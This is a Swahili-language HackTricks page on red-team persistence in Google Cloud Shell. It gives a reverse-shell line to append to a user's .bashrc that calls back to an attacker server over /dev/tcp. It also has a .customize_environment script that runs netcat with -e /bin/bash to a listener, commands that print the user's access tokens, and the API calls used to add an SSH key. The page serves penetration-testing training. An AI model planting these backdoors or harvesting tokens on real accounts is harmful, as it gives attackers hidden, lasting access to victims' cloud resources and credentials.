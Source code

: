 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa maelezo zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwa kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kufikia Cloud Shell ya Google kutoka **web console** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa washambuliaji:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa mfano wa Cloud Shell ulio na uthibitisho kamili (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Mfano huo uta **hifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayoendelea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli za mfano huo.

Hii inamaanisha kwamba mshambuliaji anaweza kuweka backdoor katika saraka ya nyumbani ya mtumiaji na kadri mtumiaji anavyounganisha kwenye GC Shell kila siku 120 angalau, backdoor itadumu na mshambuliaji atapata shell kila wakati inapoendeshwa kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwa ipo, itakuwa **inasanidi kila wakati** mtumiaji anapofikia **cloud shell** (kama katika mbinu ya awali). Ingiza tu backdoor ya awali au moja kama ifuatayo ili kudumisha uvumilivu kadri mtumiaji anavyotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinapofanywa**, dirisha la ruhusa linaonekana kwenye kivinjari cha mtumiaji. Dirisha hili lazima likubaliwe kabla ya amri kuweza kuendesha. Ikiwa dirisha lisilotarajiwa linaonekana, linaweza kuleta wasiwasi na huenda likaharibu njia ya kudumu inayotumika.
{% endhint %}

Hii ni dirisha la pop-up kutoka kwa kutekeleza `gcloud projects list` kutoka kwa cloud shell (kama mshambuliaji) lililotazamwa katika kikao cha kivinjari cha mtumiaji:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji amekuwa akitumia cloudshell kwa shughuli, dirisha la pop-up halitaonekana na unaweza **kusanya tokens za mtumiaji kwa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi muunganisho wa SSH unavyoundwa

Kimsingi, hizi API calls 3 zinatumika:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ita kufanya uongeze funguo yako ya umma uliyounda kwa ndani)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (ita kufanya uanze mfano)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (ita kuambia ip ya google cloud shell)

Lakini unaweza kupata taarifa zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeleo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
